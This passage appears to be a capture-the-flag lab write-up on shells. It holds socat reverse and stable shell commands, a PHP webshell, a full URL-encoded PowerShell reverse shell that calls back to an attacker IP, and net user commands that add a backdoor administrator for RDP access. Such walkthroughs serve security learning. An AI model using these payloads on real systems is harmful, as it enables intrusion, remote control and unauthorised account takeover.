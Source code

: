 ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```
Stable

Target:

`socat TCP-L:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

Attacker:

```socat TCP:<TARGET-IP>:<PORT> FILE:`tty`,raw,echo=0```

**5. Look through [Payloads all the things](https://github.com/swisskyrepo/
PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20
Cheatsheet.md) and try some other reverse shell techniques. Analyse them and see why they 
work.**

[Reverse shells here](./reverse-shells.md)

**6. Using the Windows box, try to upload the `php-reverse-shell`. Does this work?**

No, fails with these errors:

```
Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 
184
WARNING: Failed to daemonise. This is quite common and not fatal.
Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 
184
Successfully opened reverse shell to 10.11.7.163:8008
Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 
184
ERROR: Shell process terminated 
```
**7. Upload a webshell and obtain a reverse shell using powershell**

*URL encode your powershell!!!*

upload PHP webshell:

`<?php "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

execute with URL encoded powershell reverse shell as cmd parameter:

`http://<TARGET-IP>/uploads/shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<ATACKER-IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

**8. The webserver is running with SYSTEM privileges. Create a new user and add it to the 
"administrators" group, then login over RDP or WinRM.**

upload webshell and execute with powershell payload

`net user <USERNAME> <PASSWORD> /add`

`net localgroup administrators <USERNAME> /add`

`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.194.169 /u:<USERNAME> 
/p:<PASSWORD>`
```